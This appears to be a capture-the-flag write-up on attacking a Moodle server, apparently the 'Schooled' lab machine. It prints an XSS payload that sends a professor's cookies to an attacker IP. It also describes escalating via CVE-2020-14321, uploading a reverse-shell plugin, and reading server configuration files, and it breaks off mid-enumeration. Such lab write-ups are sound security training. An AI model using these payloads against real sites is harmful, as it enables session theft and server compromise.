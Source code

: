 ```sql

Welcome to Mathematics
by Jamie Borham - Saturday, 19 December 2020, 1:12 PM
Number of replies: 0

We will commence studies on 7th January 2021. Please be aware that lectures will be delivered online on a week by week basis and content will be released on the day of study.
```

From the second annoucement we can see that we need to set the **MoodleNet** profile in the moodle's account profile. Testing it for a simple XSS gives positive results with the **alert(123)** being executed
```javascript
MoodleNet Field Link: <img src="1" onerror="alert(123)">
```

Now, we can try to **steal the professor cookies** with a link that requests to a simple python server
```javascript
MoodleNet Field Link: <img src="1" onerror="window.location='http://10.10.16.57/cookie='+document.cookie">
```

Now, just change the cookies in the browser and refresh, we are **logged in as Manuel Phillips** <br>

Searching for CVE's, the CVE2020-14321 was found (with the [PoC](https://github.com/HoangKien1020/CVE-2020-14321)) which gives us the RCE we need to get a shell ! <br>

For this PoC we need to add the manager role to other user and then we can **"log in"** as him/her. After doing that, we have access to the administration panel, where we can upload and install a malicious plugin that will give us RCE when the page is accessed <br>

During the PoC, we only have one interesting user although multiple are shown. The interesting one has a **@staf.schooled.htb** email address (Lianne Carter - carter_lianne@staff.schooled.htb), while the others have a **@student.schooled.htb**. <br> 

Since we need a manager account, this is the one which most probably has what we need. The plugin to RCE was changed to contain a reverse shell instead of executing a system command with the value passed in the GET request (ex: cmd=whoami) <br>

We're in !
```bash
cmd: whoami && id

www
uid=80(www) gid=80(www) groups=80(www)
```

Lets find stuff in the machine <br>
```bash
# Users and home folders (cant access any)
    cmd: ls /home
    jamie -> wheel group
    steve

# Apache directory
    cmd: find / -type f -name "*apache*" 2>/dev/null
    
    ---snip---
    /usr/local/www/apache24/

# Apache config
    cmd: cat config.php | less
    <?php  // Moodle configuration file

        unset($CFG);
        global $CFG;
```